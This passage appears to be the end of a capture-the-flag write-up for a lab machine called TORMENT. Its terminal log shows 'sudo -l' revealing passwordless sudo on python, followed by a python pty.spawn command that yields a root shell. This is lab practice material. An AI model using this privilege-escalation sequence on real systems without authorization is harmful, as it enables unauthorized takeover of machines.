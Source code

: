 ```bash
drwx------  2 qiu  qiu  4096 Dec 24  2018 .nano
-rwx------  1 qiu  qiu   675 Dec 23  2018 .profile
drwx------  2 qiu  qiu  4096 Dec 24  2018 .ssh
drwx------  2 qiu  qiu  4096 Dec 24  2018 Desktop
drwx------  2 qiu  qiu  4096 Dec 24  2018 Documents
drwx------  2 qiu  qiu  4096 Dec 31  2018 Downloads
drwx------  5 qiu  qiu  4096 Dec 27  2018 Maildir
drwx------  2 qiu  qiu  4096 Dec 24  2018 Music
drwx------  2 qiu  qiu  4096 Dec 24  2018 Pictures
drwx------  2 qiu  qiu  4096 Dec 24  2018 Public
drwx------  2 qiu  qiu  4096 Dec 24  2018 Templates
drwx------  2 qiu  qiu  4096 Dec 24  2018 Videos
qiu@TORMENT:/home/qiu$ sudo -l
sudo -l
Matching Defaults entries for qiu on TORMENT:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User qiu may run the following commands on TORMENT:
    (ALL) NOPASSWD: /usr/bin/python, /bin/systemctl
qiu@TORMENT:/home/qiu$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
qiu@TORMENT:/home/qiu$ sudo python -c 'import pty;pty.spawn("/bin/bash")'
sudo python -c 'import pty;pty.spawn("/bin/bash")'
root@TORMENT:/home/qiu# whoami
whoami
root
root@TORMENT:/home/qiu# id
id
uid=0(root) gid=0(root) groups=0(root)
root@TORMENT:/home/qiu#
```
{: .nolineno}
{: .nolineno}

I am root !! 

---

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }